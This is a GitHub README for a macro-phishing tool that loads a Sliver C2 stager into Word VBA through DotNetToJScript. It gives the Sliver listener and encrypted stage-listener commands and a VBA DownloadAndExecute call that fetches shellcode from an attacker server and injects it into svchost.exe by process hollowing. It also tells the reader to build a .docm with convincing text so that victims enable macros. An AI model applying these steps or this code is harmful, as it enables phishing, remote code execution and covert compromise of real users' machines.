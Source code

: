 ```
   _____                              _________.__  .__                    
  /     \ _____    ___________  ____ /   _____/|  | |__|__  __ ___________ 
 /  \ /  \\__  \ _/ ___\_  __ \/  _ \\_____  \ |  | |  \  \/ // __ \_  __ \
/    Y    \/ __ \\  \___|  | \(  <_> )        \|  |_|  |\   /\  ___/|  | \/
\____|__  (____  /\___  >__|   \____/_______  /|____/__| \_/  \___  >__|   
        \/     \/     \/                    \/                    \/       
                                    Macro Fishing with Sliver C2
```

Backport of [SliverLoader](https://github.com/Cyb3rDudu/SliverLoader) DLL, wellknown through [Ycf-Kel](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) Powershell Stager for Sliver Shellcode,
from .net4 Framework to .net2 to make it usable as assembly in vba scripts generated by [DotNetToJScript](https://github.com/tyranid/DotNetToJScript).

If you want to generate VBA scripts with DotNetToJScript, the assembly must be built with .NET Framework version 2.0 to reference class methods through Visual Basic. The assembly from the stager built by [Ycf-Kel](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8) was written for .NET Framework v4.7 and thus could not be used as a drop-in assembly. This is because Office pre-loads a core DLL into memory before the script runs, which forces the loaded Common Language Runtime (CLR) to always be version 2.0 to access methods from invoked assemblies.

A workaround for this issue is to use the ActCtx object with a custom manifest to load version 4.0 classes into VBA, even though its CLR is set to version 2.0. However, I decided against this approach and instead backported the code to .NET Framework 2.0.

## Features

The stager retains the same features as the original:

- Raw Shellcode
- Compression for the second stage using deflate9 or gzip
- AES Encryption
- TLS through Self-Signed SSL
- Process Hollowing
- Reflection to avoid disk artifacts
- No hardcoded parameters
- Compatible with both 32-bit and 64-bit Office
- Serializable with DotNetToJScript

## Usage

### Setup Sliver C2
Follow the installation guide on the (wiki page)[https://sliver.sh/docs?name=Linux+Install+Script] to install Sliver C2

When the setup is complete, a profile is created first, followed by the initiation of a listener with a self-signed certificate to encrypt the transport. Finally, a stage listener is instantiated. The choice of how to create the certificate is yours; you just need a .key and a .crt file to pass to the listener. You can generate these files using Metasploit's “auxiliary/gather/impersonate_ssl” module on "random.com" for more obfuscation, or you can create a self-signed certificate.

- Setup the profile
```bash
profiles new -b  https://192.168.X.X:443 --format shellcode --arch x86 lab
# --arch either x86 or amd64 depending on the office version (most probably x86).
# lab is the name of the profile. you can use any name you want.
# -b for specifying HTTPS as the protocol.
```
- To start the listener, you need to specify the same port, IP address, and protocol that were used when creating the profile. Use the SSL certificate and key generated earlier by passing the `.crt` and `.key` files
```bash
https -L 192.168.X.X -l 443 -c /tmp/crt.crt -k /tmp/key.key
```
- Finally, use the stage-listener command to launch the staging server. Specify port 8080 with the HTTPS protocol. Use the same SSL certificate and key as for the listener. Additionally, specify the compression algorithm and the AES encryption keys as follows.
```bash
stage-listener --url https://192.168.X.X:8080 --profile lab -c /tmp/crt.crt -k /tmp/key.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV 
# -C deflate9, gzip or no compression is supported.
# --profile must match the created profile name.
# --aes-encrypt-key The key used for the encription.
# --aes-encrypt-iv The injection vector.
```
This will result in two jobs running on ports `443` and `8080`, both with TLS enabled.

### Macro Usage
The file macrosliver.vba contains the VBA code that is directly usable in Word. Create a .docm file with convincing text to prompt the victim to enable macro execution, ensuring that the Run() function is triggered, for example, by calling it in the Auto_Open() trigger or a similar method, to catch the session with the instantiated listener. When the VBA function is executed, it deserializes the embedded stager DLL and invokes it. After that, the functions of the loader class can be called using the object o.
```VBA
    Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)
    o.DownloadAndExecute "https://192.168.X.X:8080/hello.woff", "svchost.exe", "deflate9", "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT", "8y/B?E(G+KbPeShV"
```
The arguments to pass are:
1. The stage listener URL where the shellcode is hosted.
2. The binary into which the process should be injected.
3. The compression algorithm: either deflate9, gzip, or an empty string if no compression was chosen when the listener was created.
4. The AES key.
5. The AES initialization vector.



